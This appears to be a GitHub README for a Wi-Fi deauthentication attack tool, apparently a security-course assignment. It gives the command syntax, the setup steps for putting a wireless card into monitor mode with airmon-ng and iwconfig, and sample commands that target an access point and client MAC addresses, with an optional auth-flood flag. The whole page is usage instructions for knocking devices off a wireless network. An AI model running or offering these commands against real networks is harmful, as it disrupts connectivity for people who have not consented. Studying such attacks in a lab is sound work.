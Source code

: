 <h1>Deauth_Attack</h1>

<h3>Usage</h3>
syntax : deauth-attack [interface] [ap mac] [[station mac] [-auth]]<br>
sample : deauth-attack mon0 00:11:22:33:44:55 66:77:88:99:AA:BB<br>

<h3>Before Execute</h3>
sudo ifconfig wlan0 down<br>
sudo iwconfig wlan0 mode monitor<br>
sudo airmon-ng check kill<br>
sudo airodumpo-ng wlan0 채널 정보 및 BSSID 확인<br>
sudo airmon-ng start wlan0 6<br>
//sudo iwconfig wlan0 channel 6 #<br>
//sudo ifconfig wlan0 up<br>

<h3>Sample</h3>
sudo ./deauth-attack wlan0 00:0A:F5:E7:92:50<br>
sudo ./deauth-attack wlan0 00:0A:F5:E7:92:50 9c:28:b3:f0:70:3d<br>
sudo ./deauth-attack wlan0 00:0A:F5:E7:92:50 9c:28:b3:f0:70:3d -auth<br>

<p>https://gitlab.com/gilgil/sns/-/wikis/deauth-attack/report-deauth-attack</p>
